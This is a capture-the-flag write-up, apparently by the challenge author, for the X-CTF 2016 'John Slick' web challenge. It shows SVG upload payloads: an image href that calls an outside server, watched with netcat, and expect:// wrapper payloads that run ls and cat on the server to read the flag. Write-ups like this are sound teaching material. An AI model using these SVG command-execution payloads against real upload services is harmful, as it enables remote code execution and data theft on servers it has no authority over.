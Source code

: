 ```yaml
---
layout: post
title: X-CTF Finals 2016 - John Slick (Web 25)
modified:
categories: blog
excerpt: ""
tags: []
image:
  feature:
share: true
comments: true
date: 2016-06-22T22:32:53+02:00
---
```


X-CTF is a capture the flag competition in Singapore organized by NUS Greyhats. The on-site finals took place on Saturday, 18 June 2016. This is another one of the web challenge I wrote for the finals. 

# JohnSlick
>**Points:** 25  
**Category:** Web  
**Description:**  Flag is on the server. Get a reverse shell :). Be nice, don't break the server. [http://bg3.spro.ink:8081](http://bg3.spro.ink:8081)

---

After registering and logging in to an account, there will be an upload feature that allows you to upload files to the server. However, there seems to be a check to ensure that only certain file types are allowed, namely, GIF, PNG, JPG and SVG.

![](/resources/images/x-ctf/johnslick_upload.png)

If you tried uploading a GIF, PNG or JPG file, you'll see that the image would be successfully uploaded and displayed.

![](/resources/images/x-ctf/johnslick_img.png){: width="400px"}

However, if you tried some random SVG file like the following, you'll get a different response instead. This is meant to be a hint to the participants.

If you upload an SVG file with the following contents:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <rect x="0" y="150" height="10" width="300" style="fill: #000000"/>
</svg>
{% endhighlight %}

You should get a feedback saying: `Secret mode activated:`.

We can now be positively certain that the challenge has to do with a SVG file, the next step should then be pretty obvious. 
There are only a few common attacks that could be done with the use of a SVG file:

1. XSS due to the browser rendering the SVG file (`<script>alert(1)</script>` in an SVG element).
2. DOS attack due to a resource exhaustion similar to a billion laughs attack.
3. XXE attack due to the server parsing the SVG.

**Attack #1** would be possible if the SVG file was reflected to the user or some sort of back-end which would be viewed by an admin. However, we did not mention anything about an admin viewing anything, so this attack could have been ruled out easily.

**Attack #2** could be possible but would not allow for a reverse shell, which is our end goal.

**Attack #3** seems the most probable in this case, maybe an XXE + SSRF exploit that could allow us to run arbitrary code on the server's backend.

Looking up `SVG XXE SSRF` on Google shows a few attacks that have been done previously. In fact recently on hackerone.com there is a [publicly disclosed bug](https://hackerone.com/reports/142709) that is similar.

Following this lead, we can try an SVG payload like the following:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="http://nusgreyhats.org:800/"></image>
</svg>
{% endhighlight %}

We then open a netcat instance on the remote server to watch for any attempts to connect to it. Upon uploading the SVG file, we see that no connections were made to our netcat instance. However, if you solved the web20 challenge, similar to [it](http://quanyang.github.io/x-ctf-finals-2016-john-sick-web-20/), certain URI scheme has been disabled.

We could however, try out all the URI schemes to see if any of them are enabled. 

The [expect](http://php.net/manual/en/wrappers.expect.php) wrapper though not enabled by default, would allow us to easily obtain a reverse shell. Trying out a simple exploit like the following could easily verify that the expect scheme is enabled:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_svg.png)

We see that our `ls` payload has successfully executed. We can now easily obtain a reverse shell, or to simply read the flag directly.

{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls /"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_cat.png)

And finally,
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://cat /flag_is_really_here.xxe"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_flag.png)

And we have our flag: `XCTF{XXE_IS_PR0BABLY_NOT_XTRA_XTRA_E@SY}`!

This challenge might not be exactly realistic as it took me some hacking in order to get the SSRF vulnerability to work correctly. However, this challenge is meant to introduce the idea of XXE attacks to participants and that XXE + SSRF attack could possibly lead to RCE as seen in the recent imagemagick vulnerability.
